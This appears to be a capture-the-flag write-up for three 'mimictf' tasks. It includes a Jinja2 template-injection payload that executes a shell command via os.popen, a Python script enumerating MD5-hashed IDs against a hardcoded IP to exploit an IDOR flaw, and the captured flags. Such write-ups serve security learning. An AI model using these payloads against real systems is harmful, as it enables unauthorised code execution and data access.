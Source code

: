 Welcome flag 

Just check TG group by link in task description and search flag!

FLAG:

    mimictf{w3lc0m3_t0_th3_c1ub_buddy}

Task-2

payload:

    {{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}

FLAG:

    mimictf{55t1_1nj3ct10n_s1mple99928}

TASK-3

Script:

    import hashlib
    import requests
    
    base_url = "http://134.209.254.230:5002/document/"  # Change to real target URL with id param
    
    def md5_hash(value):
        return hashlib.md5(str(value).encode()).hexdigest()
    
    max_length = 0
    max_id = None
    max_response = None
    
    for i in range(1, 200):  # Adjust upper range as needed
        md5_id = md5_hash(i)
        url = base_url + md5_id
        response = requests.get(url)
        content_length = len(response.text)
        print(f"Trying ID: {i} MD5: {md5_id} Length: {content_length}")
        
        if content_length > max_length:
            max_length = content_length
            max_id = i
            max_response = response.text
    
    print(f"\nMax response length: {max_length} for ID: {max_id} with MD5: {md5_hash(max_id)}")
    print("Response content:\n", max_response)

By running the script, we can see that `id` `127` has a larger response size than the others, so we can find our flag using the MD5 hash 127 `ec5decca5ed3d6b8079e2e7e7bacc9f2`.

FLAG:

    mimictf{1d0r_w1th_h4sh3d_1ds_15_n0t_s4f3}
